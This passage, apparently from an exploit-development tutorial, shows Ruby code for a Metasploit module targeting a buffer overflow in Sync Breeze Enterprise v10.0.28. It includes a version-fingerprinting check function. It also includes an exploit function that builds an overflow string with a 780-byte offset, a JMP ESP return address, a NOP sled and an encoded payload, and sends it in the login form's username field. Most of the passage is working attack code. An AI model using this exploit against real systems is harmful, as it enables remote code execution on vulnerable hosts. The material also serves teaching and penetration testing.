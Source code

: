  'Offset' => 780
 }]
 ],
 

 Next, we will update the check function, which is done by performing a HTTP GET request to theURL /. 
 
 On a vulnerable system, the result contains the text “Sync Breeze Enterprise v10.0.28”.

def check
 res = send_request_cgi(
 'uri' => '/',
 'method' => 'GET'
 )
 if res && res.code == 200
 product_name = res.body.scan(/(Sync Breeze Enterprise v[^<]*)/i).flatten.first
 if product_name =~ /10\.0\.28/
 return Exploit::CheckCode::Appears
 end
 end
 return Exploit::CheckCode::Safe
end




The final section is the exploit itself.

First, we will create the exploit string, which uses the offsetand the memory address for the JMP ESP instruction along with a NOP sled and the payload.
 
Then we’ll send the crafted malicious string through an HTTP POST request using the /login URL as inthe original exploit. 
  
We will populate the HTTP POST username variable with the exploit string:

def exploit
 print_status("Generating exploit...")
 exp = rand_text_alpha(target['Offset'])
 exp << [target.ret].pack('V')
 exp << rand_text(4)
 exp << make_nops(10) # NOP sled to make sure we land on jmp to shellcode
 exp << payload.encoded
 print_status("Sending exploit...")
 send_request_cgi(
 'uri' => '/login',
 'method' => 'POST',
 'connection' => 'keep-alive',
 'vars_post' => {
 'username' => "#{exp}",
 'password' => "fakepsw"
 }
 )
 handler
 disconnect
end
